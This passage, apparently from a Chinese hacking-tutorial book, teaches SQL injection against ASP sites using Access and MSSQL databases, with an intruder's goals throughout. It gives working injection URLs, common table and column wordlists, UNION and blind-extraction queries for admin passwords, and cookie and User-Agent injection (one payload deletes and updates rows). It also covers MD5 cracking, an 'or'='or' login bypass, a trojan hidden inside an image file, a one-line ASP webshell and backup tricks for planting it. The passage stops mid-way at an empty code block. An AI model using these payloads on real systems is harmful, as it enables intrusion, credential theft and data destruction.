我们打开这个页面的源代码，定位到“搜索”这个按钮附近，如图 176。看到我的标记了吧，`Method="post"`，这里就是提交方式了。而我们刚才明明没有提交 `select=art_title` 以及 `search=+%CB%D1+%CB%F7+` 啊？请看图 176，你会发现在 `<form>...</form>` 范围内的内容（我们称之为表单）有三个 input，而 input 在表单里代表输入。


```html
<form name="sea" method="post" action="article.asp">
<input type="radio" name="select" value="art_title" checked>
<input type="radio" name="select" value="art_content">
<input type="text" name="keyword" size="25" value="搜索关键字" maxlength="50" onFocus="this.select();">
<input type="submit" name="search" value="搜 索">
</form>
```

再看看 input 的类型（也就是要看 type 关键字了），有的是 radio，有的则是 text。text 则代表着文本，而 radio 代表着单选按钮。注意了哦，要是这里的 `type=hidden` 的话，就是代表隐藏，这样我们在打开网页的时候是看不见的，而只有通过查看源文件或者抓包才能看到哦。

因此，说了那么多，有一个关键之处，就是不管表单里有多少个变量要提交，只要我们能够控制，或者说只要有变量没有完全过滤，我们就有机会。


好，现在来看一下如何对这一个搜索型变量进行注入判断。记住了，这里的判断前提是你已经通过抓包把相应的变量提取出来了，因此我们可以判断当前注入的变量就是 keyword，这个参数的值没有过滤完全。

按照前面的方法，我们只需要在 `keyword=广告` 的后面加上 `and 1=1` 之类的判断语句就可以了，可是这里又有点特殊呀！特殊在哪里呢？以前提交的变量都只有一个，或者提交的判断在 URL 的最后，现在遇到的情况是这个变量在中间！


怎么解决呢？答案就是变换顺序。如我们提交 `http://www.test.com/article.asp?select=art_title&search=+%CB%D1+%CB%F7+&keyword=%B9%E3%B8%E6`，因为提交的变量是用字符“&”来连接的，我们大可把它们变换顺序，这样操作起来就方便多了。提交后的效果如图 177。怎么样？和图 175 的效果一样吧！

`1=2 and '%='%'` 之类的字符来测试。为什么又会是这样的提交形式呢？因为搜索型注入的关键字是用 `%` 包围着的，也就是说为了不让程序出错，我们要相应地匹配起来（如果大家想要究其原理，可以参考“非安全”出品的书籍《精通脚本黑客》的 ASP 那一章节）。提交之后，那个可恶的警告框依然弹了出来，如图 178。

我们把单引号去掉后就没有弹出框框了，试着把单引号进行 URL 转码后发现依然不行，也就是说 keyword 这一个参数提交的内容没有办法突破了。


刚才说过了，只要是相关变量提交了内容，就有存在注入的可能性。其他的两个参数我们还没有试呢！我们试着控制一下 `select=art_title` 这一项，和前面一样，把它放在最后，提交的网址就变成了：

```text
http://www.test.com/article.asp?&search=+%CB%D1+%CB%F7+&keyword=%B9%E3%B8%E6&select=art_title%27
```

其中 `%27` 就是单引号的 URL 编码，我们看一下结果，如图 179。

这是典型的注入点报错形式了，而且从错误信息中也可以看出搜索关键字“广告”被“%”包围着，我们再通过对注入点类型的判断，发现其可以实现 SQL 注入了。

##### 文本框类型注入与后续猜解思路

搜索型说完了，那么文本框类型的注入又是怎么回事呢？文本框类型的注入其实就是提交方法变成 post 了，所以在注入的时候我们就不能直接在 URL 后面加注入语句进行判断，只有根据网页的返回结果来进行判断。

如 Dvbbs8.2 access/sql 版的 `login.asp` 就是一个很典型的文本注入，在登录页面的用户名那里输入 `where' and '1'='1'`，密码任意六位，点击“立即登录”，会看到登录提示是“用户名或者密码不正确”，如图 180。


而如果在用户名那里输入 `where' and '1'='2'` 的话，就会显示“无此用户”。这样一来，再通过执行其他语句就有判断的依据了。找到了注入点且知道注入点类型，又知道了数据库的类型，接下来的事情就是猜解数据库里面的内容了。

数据库里面的内容是以表的形式存在的，有些人对表以及列等会感到混淆，其实很简单，我们打个比方。比如我们要知道一个学生的详细信息，如姓名、生日等，就要知道这个学生所在的学校，并且知道他在学校所在班级。这里，学校名就相当于数据库名，而班级就相当于表名，这个学生就相当于从属于这个表下的列名（一个班级里面当然不止一个学生了，这里一样，一个表里可以有多个列名）。当然了，这个学生有很多特征，这里所说的特征就相当于列名里的内容了。因此，在取得这些详细信息之前，我们要做的就是猜解库名和表名以及列名之类的信息。


但是库名我们很少去猜，为什么？因为我们要攻击的网站本身使用的数据库正在使用中，就相当于我们现在已经在学校里了（你想啊，我们已经在学校了，虽然不知道学校名，但只要我知道班级和学生名不就可以继续下去了吗？）。当然了，在 MSSQL 注入的时候又不一样了，有时候当前库里面的内容对我们的意义不大，这就需要进行跨库查询，我们在下一小节里会进行讲解。

言归正传，要猜解表，需要用到如下语句，如我们猜解该数据库中有没有 `admin` 这个表，可以提交：

```text
http://www.test.com/about.asp?ID=4 and exists (select count(*) from admin)
```

如果返回正常，则说明该数据库中存在 `admin` 这个表，如图 181。

如果你猜表猜得不准确，那么返回的错误就是和图 158 一样的情况。说道这里，给大家的感觉就有点鸡肋了，因为如果你猜不到表的话，就无法继续了，而且又没有什么办法获得表名。

##### 常见表名

下面我给出一些常见的表名：

- admin
- a_admin
- x_admin
- m_admin
- adminuser
- admin_user
- article_member
- article_admin
- administrator
- manager
- member
- memberlist
- user
- users
- userinfo
- user_info
- admin_userinfo
- userlist
- userlist
- login
- movie
- movies
- news
- password
- clubconfig
- config
- company
- book
- art
- bbs
- dv_admin
- msyobjects
- sysobjects
- admin_psw
- admin_userpassword
- friend
- vote
- systuser
- manager_user
- system
- 用户
- 密码
- 会员
- 登录
- 账号
- VIP
- 会员

猜到表以后，我们下一步的动作就是要获得数据库中相应表里的列名了，我们需要用如下语句来实现。其实我们可以把刚才猜表的语句稍微变一点点就可以了，以平常的想法就可以知道，“*”是代表任意的意思，要是我们把它换成具体的列名就可以猜出有哪些列名了。

```text
http://www.test.com/about.asp?ID=4 and exists (select count(name) from admin)
```

返回错误，说明在 admin 表中不存在 name 这个列。当我们提交“http://www.test.com/about.asp?ID=4 and exists (select count(username) from admin)”的时候返回正常信息，如图183。

通过以上的尝试，确定 admin 表中存在 username、password 和 id 这三列，而且常见的列名有如下一些：

- id
- adminid
- admin_id
- adminuser
- admin_user
- adminuserid
- admin_userid
- adminusername
- admin_username
- adminname
- admin_name
- adminpwd
- admin_pwd
- adminpass
- admin_pass
- adminpassword
- admin_password
- administrator
- administrators
- usr
- usr_n
- username
- usr_name
- usrpass
- user
- pass
- password
- userpassword
- usr_password
- pwd
- user_pwd
- useradmin
- user_admin
- m_work
- passwd
- pass_wd
- yonghu
- mima
- dv
- oklook
- u_name
- city
- address
- movie_ad
- systuser
- 姓名
- 用户
- 账号
- 密码
- 用户密码
- 用户账号
- 级别
- 用户名
- 会员

猜到了列名以后就是猜解列名里的内容了。怎么猜解呢？我们拿 admin 表中 username 列里的内容来演示一下。在猜这里面的内容之前，我们要判断一下内容的长度，要是长度大于 50，我想你应该做好思想准备，因为那样手工猜解起来工作量是很大的。

```text
http://www.test.com/about.asp?ID=4 and (select top 1 len(username) from admin)>4
```

返回信息如图184。其中 len() 函数就是判断列名内容长度的，而 top 1 表示 username 第一行。这说明长度是小于等于 4 的，我们再提交“http://www.test.com/about.asp?ID=4 and (select top 1 len(username) from admin)>3”，发现返回正确的信息，如图185。

这样，我们结合前面的图184就可以判断出 username 列名中的第一条记录的长度为 4。如果你要猜第二条记录的长度，可以在 top 后面接第 2 来猜解，其它位数的依此类推。

接下来当然是猜内容了，一般情况下，我们是用 Mid(列名，N，1) 函数截取第 N 位字符，然后再用 ASC(Mid(列名，N，1)) 函数获得第 N 位字符的 ASCII 码。ASCII 码又叫美国信息标准码，用这个编码可以把一些字母和符号转换成数字，如 a 的十进制 ASCII 码为 97，而我们猜解出来的就是这个码值，所以猜解出来后还要对其进行相应的转换，不过这类工具不少。

现在我们提交“http://www.test.com/about.asp?ID=4 and (select top 1 asc(mid(username,1,1)) from admin)>97”，返回正确，说明第一字母不是 a，我们需要继续猜解。这个猜解过程是很缓慢的，不过我们可以用折半法猜。

什么是折半法呢？比如这里大于 97，我们猜是不是大于 110，不大于 110 的话，我们猜大不大于 105……以此类推进行猜解，这样就可以很快锁定其 ASC 码值的范围。这里当我提交“http://www.test.com/about.asp?ID=4 and (select top 1 asc(mid(username,1,1)) from admin)=107”的时候返回正确，如图186。

现在打开“ASCII 及进制转换”工具，发现“107”对应的是小写字母“k”，如图187。

通过一一猜解和转换，终于猜解出 username 里面第一行的内容为“king”，如果要猜 password 的话，把刚才的 username 换成 password 就可以了。这样，我们就得到其用户名和密码了。

如果你是一个新手的话，那么你会对如上的步骤感到非常的头疼！虽然 ACCESS 的功能没有 MSSQL 那么强大，那么在猜解用户名和密码内容时有没有简单点的方法呢？答案是有的，那就是 union 查询。

在用 union 查询前我们首先要确定字段数，也就是用 order by N 的方式来确定。好了，我们在这个网站上试下，提交“http://www.test.com/about.asp?ID=4 order by 5”，如图188。

看到没有，显示错误，也就是说 order by N 语法不能得到正确的结果。在一般情况下，如果是列名不匹配的话会提示的，但这里提示的是“子句语法错误”，是为什么呢？因为 order by 需要在语句的最后使用，因此我们可以猜想这个注入点后面还有语句。通过搜索，最后发现这个文件的查询语句如下，也就是 SQL 语句后面还跟了“Order By show,id Desc”这样的语句。

```text
SQL=SQL&" Order By show,id Desc"
```

Order by 不是在语句的最后就会干扰结果，如果后面还有什么东西我们要想办法注释掉。但 ACCESS 不像 MSSQL 和 MYSQL 那样支持注释，这里我们就没办法了么？非也，我们还可以一个一个地猜，如提交……

“http://www.test.com/about.asp?ID=4 and 1=2 union select 1”，发现报错，如图189。提示“至少要有一个表”，那我们再次提交“http://www.test.com/about.asp?ID=4 and 1=2 union select 1 from admin”，返回信息如图190。

这回给我们的提示又不一样了。一直到现在，我们都是根据错误提示在操作，既然列数不匹配，那我们就让它匹配。继续提交“and 1=2 union select 1,2”之类的语句，并使 select 后面的数字逐渐递增，直到我们提交“http://www.test.com/about.asp?ID=4 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21 from admin”时，发现没有报错，并返回如图191的信息。

注意我用圈标出来的数字，就是在这些地方我们可以爆出其内容。我们把 URL 里的 2 和 3 分别换成 username 和 password，得到的结果如图192。

这里得到的便是其中的一个管理员的用户名和 MD5 加密过的密码了。而刚才 2 的位置上显示的就是用户名，3 的位置上显示的就是加密的密码。由于 access 的简单性，不能像 mysql 那样用 limit 语句加以限制，所以这里只能得到管理员组中一个用户的信息。不过可以在后面加上 where 语句来限制，如 where id=1，不过由于这个注入后面还加有其它语句，所以爆不出来其它 ID 的用户名和密码，这种方法比起那种猜解就方便多了。

另外，随着研究的深入化，注定 ACCESS 这种数据库类型的注入也会风生水起。除了上面常用的注入函数外，还有一个比较少见的函数，那就是 IIF 函数了，它的使用方法是这样的：`IIF(condition,true,false)`。

如我们提交“http://www.test.com/about.asp?ID=4 and IIF(exists(select count(*) from admin),true,false)”，得到的结果如图193。

如果是配合刚才的 union 查询的话，按照刚才的语句就会返回 true 的表达式，如我们分别提交如下两句，得到的结果分别如图194和图195。

```text
http://www.test.com/about.asp?ID=4%20and%201=2%20union%20select%201,IIF(exists%20(select%20count(*)%20from%20admin),%27a%27,%27b%27),password,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21%20from%20admin
```

```text
http://www.test.com/about.asp?ID=4%20and%201=2%20union%20select%201,IIF(exists%20(select%20count(*)%20from%20test),%27a%27,%27b%27),password,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21%20from%20admin
```

这个函数在一些特殊情况下还是能够用得着的。另外，ACCESS 的跨库查询需要知道另一个数据库文件的物理路径，知道后便可进行联合查询了，如我们提交如下语句，得到的结果如图196。

```text
http://www.test.com/about.asp?id=4%20and%201=2%20union%20select%201,sys_username,sys_userpass,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21%20from%20WeEditor_System%20in%20'D:\Web\anice\WebEditor\280sp1\db_e\Webeditor.mdb'
```

##### 《Access 注射点读取 MSSQL 数据库内容》

首先说明一点，这个方法很早就有了，不过用时大概在脑袋里沉寂太久，已经处于忘却状态，这里感谢 Trace 提供资料。

大家经常会遇到任意文件下载漏洞，一般处理的方法是把数据库连接文件下载回来，然后远程连接上去。最理想的状态莫过于遇到 MSSQL 和 MYSQL，尤其是在数据库和 Web 不分离的情况下，备份 SHELL，导出 SHELL，可以用的方法很多。

不过要是数据库和 Web 分离，而且数据库在内网不可上网，或者有防火墙等等其它手段使得我们无法连上远程数据库时，或者假设得再艰难一些，甚至无法找到一个 MSSQL 注射点时，通常许多人就会束手无策。

这里以 MSSQL 为例子，当找到一个任意文件下载漏洞时，直接下了 Web.config 回来看，发现数据库在内网，找了半天没找到注射点。稍微旁注一下，有一个站，可惜是 ACCESS 数据库，猜不到表和后台。不过目标站的后台是知道的，准备从这个 ACCESS 注射点读出目标站管理员账户。直观一些，下面直接给出我本地的测试结果，如图197。

弄得简单一点，就 3 个字段，ID、XM、XB，ID 数字型，后面 2 个是字符型。我们用 UNION 联合查询给它匹配一下，语句就是（黑盒操作时用 order by 或者穷举来确定字段个数）：

```sql
SELECT * FROM test where id=999999 union Select top 1 1,2,name from [ODBC;Driver=SQL Server;UID=dbo;PWD=dba;Server=*****;DataBase=master].ku
```

这里的 master 库中我建立了一个名为 KU 的表，上面这个查询语句中，由于 id=999999 不存在，在联合查询的作用下，Web 上原本显示 access 数据库内容的位置显示出了我们构造的 UNION 查询结果，name 字段处于一个字符型的显示位置，如图198。

ku 这个表里的 name 字段内容就会被显示在 Web 上相应的位置，不过这个显然不是我们想要的，我们要的是整个表的结构和内容。这里是模拟的结果，事先我已经知道 master 的结构，待会方便和结果比对校验是否有错，如图199。

执行如下语句：

```sql
SELECT * FROM test where id=999999 union Select top 1 1,2,table_name from [ODBC;Driver=SQL Server;UID=dbo;PWD=dba;Server=****;DataBase=master].information_schema.tables
```

这样，master 库的第一个表名就出来了，如图200。获得后面的表名也很简单，执行如下语句，结果如图201。

```sql
SELECT * FROM test where id=999999 union Select top 1 1,2,table_name from [ODBC;Driver=SQL Server;UID=dbo;PWD=dba;Server=****;DataBase=master].information_schema.tables where table_name not in (select top 1 table_name from [ODBC;Driver=SQL Server;UID=dbo;PWD=dba;Server=****;DataBase=master].information_schema.tables)
```

以此类似的常规方法取得字段名和字段内容，代码繁琐，自行研究吧。如果数据库里的 ID 是字符型，则执行如下语句：

```sql
SELECT * FROM test where id='999999' union Select top 1 1,2,table_name from [ODBC;Driver=SQL Server;UID=dbo;PWD=dba;Server=***;DataBase=master].information_schema.tables where '1'='1'
```

最后我要提一点关于 ACCESS 注入的导出文件的利用，其实这是一个很鸡肋的方法。为什么这样说呢？因为这个方法用到的语句如下：

```sql
SELECT * into [test.txt] in 'd:\Web\' 'text;' from admin
```

利用这一句可以把 admin 表中的内容导出到 d:\Web 的 test.txt 文件里。我们在 mdb 数据库里执行如上语句，效果如图202。

这样我们再来到 D 盘下看看 test.txt，里面的内容如下：

```text
"sys_UserName" "sys_UserPass" "sys_Version" "sys_ReleaseDate" "sys_License"
"cc7e3e66d109425c" "469e80d32c0559f8" "2.8.0" "2004-07-06"
```

确实可以导出 TXT 文件，这里是导不出 ASP 文件的，因为默认不允许，除非修改注册表：HKEY_LOCAL_MACHINE\Software\Microsoft\Jet\4.0\Engines\Text\DisableExtension 下的值，把 ASP 也添加进去。

明明可以实现，为什么说这是一个鸡肋呢？因为我们以上所执行的语句是在 MDB 数据库文件里执行的，而不是在注入点执行。我们在注入点执行以上语句看看效果，如图203。

可以看到提示我们“动作查询不能作为行的来源”。这里的原因很简单，union 后不能跟 select * into 的语句，因此这个方法在入侵的时候用处不太大，如果你能配合其它攻击手法那就另当别论了。

上面提到的都是用手工一个个地猜解，如果用工具的话就很简单啦。在前面已经介绍过了，我用啊D演示。把存在注入的网址放在“注入连接”那里，然后依次点击……

## 笔记04章


图204


图205

“检测表段”“检测字段”“检测内容”后便会出现结果了，如图204。

在出来的结果那一栏选中你要查看的结果，然后双击就可以查看了，如图205。

怎么样，工具就是快吧？呵呵，在前面说的注入类型里，我们都只需要在相应的地方做适当的变化就可以。如字符型的，我们就可以用“id=test' and SQL语句 and '1'='1”来进行攻击。

好了，ACCESS 的注入攻击就说到这里。由于 ACCESS 本身的缺陷性，导致我们在注入 ACCESS 数据库类型的时候感到枯燥。下一节中我们将接触 MSSQL 注入，那可比 ACCESS 精彩得多哦。

注入攻击的完成在 ACCESS 里并不意味着攻击者的最终胜利，因为他连 WebShell 都没有拿到。接下来的事情就是破 MD5 并找后台。破解 MD5 也要看密码的复杂程度，如果密码设置得很简单的话，我们可以通过 http://www.cmd5.com 来查询，如图206。


图206

其它网站我并不推荐，因为就目前的专业水平和收录情况来看，还是 www.cmd5.com 做得最好。不过，因为复杂密码的查询是要收费的，如果你不想花上这么一笔费用，那么你大可用工具来跑，它就是大名鼎鼎的 md5_crack。我用的是第四版，界面如图207。

通常情况下，我们保持默认设置即可。


图207


图208

拿刚才的 MD5 密码来试一下暴力破解的效率，如图208，用了不到 5 秒的时间。

现在只需要点击下面的“Result”就可以看到结果了。当然，如果上面的网站没有查到，或查到了密码却要收费，你可以自己改变这个软件的配置来慢慢跑，如把最大位数改成 12 位。

另外还可以选择除了字母这种简单组合外，加上小写字母、特殊字符等其它复杂组合。这些设置都是在“Plaintext Setting”里，而破解的成功率依然是建立在你电脑性能的基础上。

密码到手后就是要找到后台。如何找后台呢？前面的章节已经介绍了，这里我通过查看图片的地址，发现了一个可疑的目录，如图209。


而且还发现了 eWebEditor 的踪影，我们先打开这个目录试试，果然是后台登录的页面，如图210。

进入后台如何得到 WebShell 呢？方法很多，如向配置文件里写入一句话、备份、上传、利用 Windows 2003 的特性建 asp 的文件夹等。但这个后台是基于 eWebEditor 编辑器的，所以基本方法拿 shell 没有用武之地，转而攻击 eWebEditor，发现存在 upload.asp 文件并成功利用，于是很顺利地得到了 WebShell，如图211。


我们再来看一下常见的备份拿 shell 方法。我们打开这个网站的后台，用户名和密码都输入：'or'='or'，竟然进去了。然后上传一个图片，当然图片里的内容就是脚本木马了，接着备份成 asp 格式就行了。我们随便点击一个上传的地方，如图212。

接着把我们常用的木马改成 gif、jpg、bmp 等图片后缀的形式并上传。注意了，这里程序没有做任何的限制，也就是说程序没有检测文件里的内容。如果碰到检测程序内容的时候，我们只需要在文件内容前加上“gif89a”字符串就可以欺骗通过。而其它内容我们可以通过 copy 的方法来试一下，如：`copy /b 11.jpg+xiaoma.asp test.jpg`，如图213。


其中 11.jpg 是正常的 JPG 图片文件，而 xiaoma.asp 是我们的小马，最后生成的 test.jpg 就是带有小马内容的图片了。我们用记事本打开这个 test.jpg 文件，在一片乱码之后发现了小马的踪影，如图214。

这样就可以躲过一部分程序的检测了，如果还不行，就可能要用到加密了。


上传之后，需要找到图片的相对路径。刚开始我以为上传上去了，结果打开相对路径的地址 `http://www.test.com/img/no.gif`，并没有出现图片，而显示给我的却是“找不到相应的文件”。

没上传怎么办？那网站本身的图片是怎么传上去的呢？因此到这里的思路就是寻找上传的地方，然后在当前目录下试试访问 upload.asp、upfile.asp 等文件，结果真让我找到了，如图215。


然后把刚才的文件再传一遍，这个时候你会发现，传完后没有任何回显，如图216。


这里可能算是一个难点了，但对于有经验的入侵者来说，这点丝毫不会影响他前进的步伐。我们打开源文件看一下有什么东西，如图217。原来上传成功了，只不过浏览器没有给出相应的回应！现在已经知道图片的相对地址为：UploadFiles/200922513157130.gif，我们再回到备份的地方来，在“当前数据库路径”那里填上刚才上传的图片相对地址，即 UploadFiles/200922513157130.gif，然后在“备份数据库目录”那里保持默认就行（这个是生成 SHELL 后的目录），最后在“备份数据库的名称”那里填上你想要生成的文件名，你可以随便取，但后缀要是 ASP 脚本后缀（其它脚本后缀也是可以的），我这里输入的是 test.asp，接着点击“确定”就可以了，如图218。

不出意外，我们会看到成功的提示，如图219。好了，接下来要做的就是把这些路径和网站名连起来进行访问，即：http://www.test.com/manage/databackup/test.asp，结果如图220。在后台还有一种很常见的方法，就是插一句话。前面我已经提到过过滤不严的问题，因为后台是管理的地方，一个网站的配置文件常可以用后台来管理，如果我们在配置文件里插入一句话等木马，也是非常行之有效的。但这会涉及到字符匹配的问题，因为这里存在一些 HTML 元素，如 <、" 等，我们插入的时候最好不要破坏网页本身，不然就算是插入了，木马也不会有效果的。如马克斯 cms2.0 后台拿 shell 就可以采用这种方法，插入语句是：“test"%><%execute request("test")%><%/a="test”。当然，由于 asp 除了支持“'”（单引号）外，还支持“//”（双斜杠），因此，在程序过滤不够严格的情况下，我们还可以这样写：“test".eval request(test)”以及“test";eval request(test)//”。注意了，这里的“;”代表的是换行的意思，也就是说换作两句。


大体上说来，这一小节由普通的 SQL 注入攻击慢慢展开，到最后拿到 WebShell 了，但是千万不要以为你的眼睛看到的就是全部了。就算是 ACCESS 的数据库，注入也不只上面提到的那么多，因为注入还分类型的。在前面的小节里我只是大略提到了，并没有详细地讲。SQL 注入是不分脚本语言的，所有脚本语言一旦过滤不严，都是有可能存在漏洞风险。常见的注入类型分……


为：get 注入、post 注入、cookie 注入。注意了，除了这三种以外，还有一类比较隐蔽，那就是 HTTP 头注入。

get 注入就是前面讲到的把攻击语句写在 URL 上一起提交，但 post 注入就要用到 post 提交方式。cookie 也和 get 不一样，有其自己的提交方式。那么 post 注入和 cookie 注入有没有简单的方法来实现呢？对于 post 还好说一点，如果你可以判断这个 URL 存在 post 注入，我们可以用 NBSI 或者 pangolin 来实现注入，只不过注入的时候要选择好注入类型，如图221。

对于 cookie 注入，是一些防注代码的软肋，许多防注代码常常把 cookie 这种提交方式忘记。由于手工注入比较麻烦，我们用工具来代替，这里介绍 jmdcw 前辈写的“注入中转”，下面实战一下。

当我们打开 `http://www.test.com/productshow.asp?id=128` 并在后面加一个单引号的时候，出现如图222的提示。

由于代码忘记了对 cookie 数据的过滤，我们依然可以进行注入。打开“注入中转”工具，界面如图223。


“注入键名”就是刚才看到的 `productshow.asp?ID=128` 中的“id=”，“注入 URL 地址”和“来源页”都填上刚才除掉参数后的网页，如：`http://www.test.com/productshow.asp`，而“正常的 cookie 值”我们可以不用管，默认就行。

在“POST 提交值”里出现的字符串“jmdcw=”后面填上参数对应的数字，即 128。右侧栏选择“cookie 注入”，最后点击“生成 ASP”就可以看到当前目录下生成了一个名为 `jmcook.asp` 的文件。

我们把它放到一个可以支持 asp 的空间里，这里我用本地搭建的“小旋风服务器”环境进行测试，直接访问 `http://127.0.0.1:81/jmcook.asp?jmdcw=128`，如图224。

除了一些图片不能正常显示外，其它的都能正常显示。然后我们把这个 URL 放到 pangolin 里检测，效果如图225。

成功检测出表段，也就是说可以注入。怎么样？cookie 注入还是比较好玩的，当然前提是你要能发现它。


接下来说一下 HTTP 头方式的注入，这里是指 `HTTP_X_FORWARDED_FOR`。那么先来了解下 `HTTP_X_FORWARDED_FOR` 是干什么用的。在这之前我们看一段代码：`userip = Request.ServerVariables("HTTP_X_FORWARDED_FOR")`

在 ASP 中，常使用 `Request.ServerVariables("REMOTE_ADDR")`（注意哦，REMOTE_ADDR 是不能更改的，而 HTTP_X_FORWARDED_FOR 却是可以伪造的）来取得客户端的 IP 地址，如果客户端使用了代理，这段代码取得的就是代理的 IP。因此，为了能在客户端使用代理的情况下取得客户端 IP，就需要上面的那段代码，也正是因为有了这一变量（我说的变量是指 HTTP_X_FORWARDED_FOR）的存在，所以在最后执行查询的时候使我们有了可乘之机。

请看如下代码：


```asp
VisitIP = request.ServerVariables("HTTP_X_FORWARDED_FOR")
If VisitIP = "" then
    VisitIP = request.ServerVariables("REMOTE_ADDR")
End If
Set VS_RS = Conn.Execute("Select top 1 ...")
VoteTime from FS_YS_items_Result where TID='"&TID&"' and VoteIp='"&VisitIP&"' order by RID desc
```

方法还是同前面一样，要抓包，然后利用 NC 的提交功能才能实现。还有一类 HTTP 头注入，就是 **HTTP_USER_AGENT**，和前面的也是差不多。我们来看下新云 CMS Online 页面的过滤不严导致的 SQL 注入漏洞，相关代码如下：

```asp
OnlineSQL = "INSERT INTO NC_Online(id,ChannelID,username,identitys,station,ip,browser,startTime,lastTime,userid,strReferer) VALUES (...)"  // 第69行
...
Agent = Request.ServerVariables("HTTP_USER_AGENT")  // 第99行
...
ElseIf Left(Agent, 5) = "Opera" Then  ' 有此标识为浏览器  // 第162行
    Agent = Split(Agent, "/")
    Browser = "Mozilla"
    Tmpstr = Split(Agent(1), " ")
    Version = Tmpstr(0)
```

HTTP_USER_AGENT 可以控制，则 version 变量也是可以控制的。由于 HTTP_USER_AGENT 两次分割成数组的时候用的是“/”和“ ”（空格），所以构造 SQL 语句的时候间隔符不能用 /**/ 和空格，但可以用 TAB 键弄出空格来，并且为了保证程序下次仍然可以 insert，需要在后面加上 delete from NC_Online。这样，构造出来的数据包如下：

```http
POST /nc/online.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Referer: http://localhost/xx.htm
Accept-Language: zh-cn
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Opera/haha1,2008,2009,11111';	delete	from	NC_Online;update[NC_User]set[buycode]=7;--
Host: localhost
Connection: Keep-Alive
Cookie: ASPSESSIONIDAABRCRRS=FGNDBDDKJFADQGQMKLBGPF
```

说起来，这种注入很复杂，但也不失为一种行之有效的攻击哦。

注入攻击总体说来，由于其强大的灵活性而一直是一些 hacker 们津津乐道的话题。而且由于搭配的脚本语言类型不一样，也使得注入在不同的数据库中存在着差异。正是这种灵活性的差异性，让一些安全爱好者不断地发现漏洞并带动着网络安全不断发展。

对于 access 数据库的攻击就写到这里，并且一些常见的攻击手法并不止 ASP 里有，下面要提到的 PHP 和 JSP 里也同样存在。但注入就大不一样了，下面快让我们一起来学习 MSSQL 数据库类型的注入吧。

#### 4.5.2 针对 MSSQL 数据库的攻击

如何判断数据库是不是 MSSQL 在上一小节已经提到过了，这里就不再赘述。前面讲到的上传、验证不严等漏洞是相对于脚本语言的，而对数据库是没有关系的，任何写得不够好的程序都可能存在上述问题。虽说 MSSQL 通常是和 ASP 搭配的，但也有和 PHP、JSP 语言配对的，如下面这个 URL，我们加个单引号，显示结果如图226。

从报错的信息来看，该网站的数据库采用的是 MSSQL，但程序是用 PHP 编写的。这种情况很少，我们还是看一下普遍存在的组合——ASP+MSSQL。

针对这种搭配环境，我们首先要做的就是权限的判断。如果权限是 SA 或者 DB，我们就可以不像 ACCESS 那样猜表、猜列那么麻烦了。是 SA 的话，我们可以直接执行命令；是 DB 的话，我们可以通过找到 Web 路径，然后采用备份的方式来得到 WebShell。


且数据库的版本也很重要。如是 2000 的话，一些危险的组件在默认情况下我们是可以调用的；而对于 2005 来说，有些危险组件则是禁止的，因此我们要分别对待。

##### 4.5.2.1 针对有错误回显的 2000 数据库的攻击

在网络上我们碰到的权限无外乎这样三种：SA、DB_OWNER、PUBLIC。判断权限最经典的语句莫过于：

```sql
and user>0
```

如我们提交“http://www.test.com/board/board_view.asp?subject=&text=&B_Num=13487 and user>0”，返回信息如图227。

看到没，返回的错误信息里包含了“dbo”这样的字眼，这表示我们遇到 SA 权限了（不是我们想象中会出现的“SA”字样哦）。这么说用 and user>0 判断准不准确呢？


我们再来看一下注入点，提交“http://www.test.com/mov/content_det.asp?idx=172' and user>0 and '1'='1'”，这个注入点是字符型的，所以提交的语句不一样，返回信息如下：

```
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL Server]nvarchar 值 'hivem' …
/mov/content_det.asp, 行 20
```

只是暴出了数据库的用户名，而我们并不知道网站的权限，这个时候就需要用 IS_SRVROLEMEMBER 函数来检测了。我们提交：“http://www.test.com/mov/content_det.asp?idx=172' and 1=(select IS_SRVROLEMEMBER('db_owner')) and '1'='1'”，得到的结果如图228。

不是 DB 权限了，那就有可能是 public 权限，来试一下吧。提交这样的 URL：“http://www.test.com/mov/content_det.asp?idx=172' and 1=(select IS_SRVROLEMEMBER('public')) and '1'='1'”，发现返回了正常的页面，如图229。


说明这个注入点就是 public 权限，准确判断权限需要用到如下语句：

- SA 权限：`and 1=(select IS_SRVROLEMEMBER('sysadmin'))`
- DB_OWNER 权限：`and 1=(select IS_SRVROLEMEMBER('db_owner'))`
- PUBLIC 权限：`and 1=(select IS_SRVROLEMEMBER('public'))`


一般我们遇到的都是这三种权限。接下来我们需要继续确定数据库的版本号以及操作系统类型。因为以上情况都是基于显错模式的，我们只需要提交这样的语句：“http://www.test.com/board/board_view.asp?subject=&text=&B_Num=13487 and 1=convert(int,@@version)”，返回的信息如下：

```
Microsoft OLE DB Provider for SQL Server 错误 '80040e07'
nvarchar 值 'Microsoft SQL Server 2000 - 8.00.2039 (Intel X86) ... on Windows NT 5.2 (Build 3790: Service Pack 2)' ...
/board/board_view.asp, 行 19
```

有了这样的信息，我们可以很清楚地从中得到数据库的版本号为 2000，操作系统是 Windows NT 5.2。如果数据库是 2005 版的，则显示信息如下：

```
Microsoft OLE DB Provider for SQL Server 错误 '80040e07' ...
```

> “将 nvarchar 值 Microsoft SQL Server 2005 - 9.00.1399.06 ... 转换成数据类型 int 时失败。/news.asp，行 27”

我们继续来得到数据库名以及当前数据库用户，先提交：`http://www.test.com/bbs/list.asp?code=process' and 1=convert(int,db_name()) and '1'='1`，返回信息如图230，得到数据库名。

如果要得到用户名，只要把其中的语句替换为 `and 1=convert(int,user_name())` 就行了。还有一点需要确定，就是注入点能不能支持多句执行，可以用这样的语句进行判断：`http://www.test.com/bbs/list.asp?code=process';declare @d int;--`。如果返回正常，那么说明这个注入点是支持多句执行的。

好了，我们来看一下注入点为 SA 时如何继续进行。首先要明确的是，如果 Web 与 DATA 分离，并且 DATA 又在内网且不对外开放一些敏感端口，这种情况就很复杂了，难度相当大。

但如果 Web 与 DATA 没分离，且一些危险端口没有对外过滤的话，事情就变得简单起来。我们还是先来看一下简单的情况，在这时首先想到的是 `xp_cmdshell` 这个存储过程，我们可以提交如下 URL 来检测这个过程是否被删除：

```sql
